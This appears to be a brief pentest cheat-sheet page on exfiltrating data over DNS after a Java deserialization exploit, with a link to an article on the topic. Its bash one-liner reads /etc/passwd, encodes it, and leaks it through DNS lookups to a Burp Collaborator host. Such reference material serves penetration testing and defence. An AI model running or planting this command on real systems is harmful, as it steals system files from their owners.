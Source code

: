 ### Java Deserialization DNS Exfil information

Make your payload execute something like the following:

```bash
(i=0;tar zcf - /etc/passwd | xxd -p -c 31 | while read line; do host $line.$i.cl1k22spvdzcxdenxt5onx5id9je73.burpcollaborator.net;i=$((i+1)); done)
```

### More Information

* [https://techblog.mediaservice.net/2017/05/reliable-discovery-and-exploitation-of-java-deserialization-vulnerabilities/](https://techblog.mediaservice.net/2017/05/reliable-discovery-and-exploitation-of-java-deserialization-vulnerabilities/)

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
